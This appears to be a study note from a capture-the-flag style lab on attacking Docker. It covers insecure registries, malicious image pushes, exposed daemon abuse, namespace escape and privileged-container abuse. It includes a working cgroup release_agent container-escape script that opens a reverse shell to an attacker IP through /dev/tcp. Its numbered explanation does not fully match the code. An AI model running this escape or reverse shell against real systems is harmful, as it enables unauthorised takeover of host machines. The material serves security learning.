



# Commands/tools
**1st method: Online insecure docker registry(version)**
--------------------------------------------------------

`/etc/docker/daemon.json`

```text-plain
	{
  	"insecure-registries" : ["docker-rodeo.thm:5000","docker-rodeo.thm:7000"]
	}
```

These files contain commands such as `RUN` and `COPY` that will be executed by the container. `RUN` commands will execute system commands such as `apt-get` or `ls /home/`

```text-plain
docker pull rustscan/rustscan:1.8.0(or latest)
```

The Docker Registry is a JSON endpoint, so we cannot just simply interact with it like we would a normal website - we will have to query it. Whilst this can be done via the terminal or browser, dedicated tools such as [Postman](https://www.postman.com/downloads/)or [Insomnia](https://insomnia.rest/download/) are much better suited for the job.

[`http://docker-rodeo.thm:5000/v2/**cmnatic/myapp1**/manifests/**notsecure**`](http://docker-rodeo.thm:5000/v2/cmnatic/myapp1/manifests/notsecure)

**2nd method: Reversing image with DIVE**
-----------------------------------------

`dive <Docker Image ID`

We have four different views, we are only interested in these three views:

**4.5.1**. Layers (pictured in red)

**4.5.1.1.** This window shows the various layers and stages the docker container has gone through

**4.6**.**1.** Current Layer Contents (pictured in green)

**4.6.1.1.** This window shows you the contents of the container's filesystem at the selected layer

**4.7.1.** Layer Details (pictured in red)

**4.7.1.1.** Shows miscellaneous information such as the ID of the layer and any command executed in the Dockerfile for that layer.



**3rd Method: Upload Malicious docker images**
----------------------------------------------

we can upload (or `push`) our own images to a repository, containing malicious code. 

When a `docker pull` or `docker run` command is issued, Docker will first try to find a copy of the image (i.e. **cmnatic/myapp1**) on the host and then proceed to check if there have been any changes made on the Docker registry it was _pulled_ from. If there are changes, Docker will download the updated image onto the host and then proceed to execute.



We compile this into an image with `docker build` . Once compiled and added to the vulnerable registry, we set up a listener on our attacker machine and wait for the new image to be executed by the target.

**4th & 5th Method: RCE/Escape via exposed docker daemon**
----------------------------------------------------------

a UNIX socket accomplishes the same job as it's networking sibling - moving data, albeit all within the host itself by using the filesystem rather than networking interfaces/adapters

```text-plain
docker -H tcp://10.10.46.192:2375 ps
docker -H tcp://<IP>:<PORT> exec <CONTAINER ID(obtained with ps> <local command such as ls>
```

**6th Method: Shared namespaces**
---------------------------------

Put simply, the process with an ID of 0 is the process that is started when the system boots. Processes numbers increment and must be started by another process, so naturally, the next process ID will be #1. This process is the systems `init` , for example, the latest versions of Ubuntu use `systemd`. Any other process that runs will be controlled by `systemd` (process #1).

We can use process #1's namespace on an operating system to escalate our privileges. Whilst containers are designed to use these namespaces to isolate from another, they can instead, coincide with the host computers processes, rather than isolated from...this gives us a nice opportunity to escape!

We can confirm that the container we're connected to in namespaces of the host by using `ps aux`. Remember how we were only expecting a couple of entries? Now we can see the whole systems process...

We'll be invoking the [nsenter](https://man7.org/linux/man-pages/man1/nsenter.1.html) command. To summarise, this command allows you to execute start processes and place them within the same namespace as another process. 

**7th Method: Misconfigured privileges**
----------------------------------------

Containers running in "user" mode interact with the operating system through the Docker engine. Privileged containers, however, do not do this...instead, they bypass the Docker engine and have direct communication with the operating system.

We can use a system package such as "libcap2-bin"'s `capsh` to list the capabilities our container has: `capsh --print` . I've highlighted a few interesting privileges that we have been given, but greatly encourage you to research into anymore that may be exploited! Privileges like these indicate that our container is running in privileged mode.



sys\_admin" to be able to [mount](https://linux.die.net/man/2/mount) files from the host OS into the container.

The code snippet below is based upon (but a modified) version of the [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.) where they detail the inner-workings to this exploit well.

```text-plain
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release

host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo 'bash -c "bash -i >& /dev/tcp/10.9.0.233/1234 0>&1"' >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

**1.** We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "cgroups" to manage processes on the operating system since we have capabilities to manage "cgroups" as root on the host, we'll mount this to "_/tmp/cgrp_" on the container.

**2**. For our exploit to execute, we'll need to tell Kernel to run our code. By adding "1" to "_/tmp/cgrp/x/notify\_on\_release_", we're telling the kernel to execute something once the "cgroup" finishes. [(Paul Menage., 2004)](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)

**3\.** We find out where the containers files are stored on the host and store it as a variable

**4.** Where we then echo the location of the containers files into our "_/exploit_" and then ultimately to the "release\_agent" which is what will be executed by the "cgroup" once it is released.

**5.** Let's turn our exploit into a shell on the host

**6.** Execute a command to echo the host flag into a file named "flag.txt" in the container, once "_/exploit_" is executed

**7.** Make our exploit executable!

**8.** We create a process and store that into "_/tmp/cgrp/x/cgroup.procs_"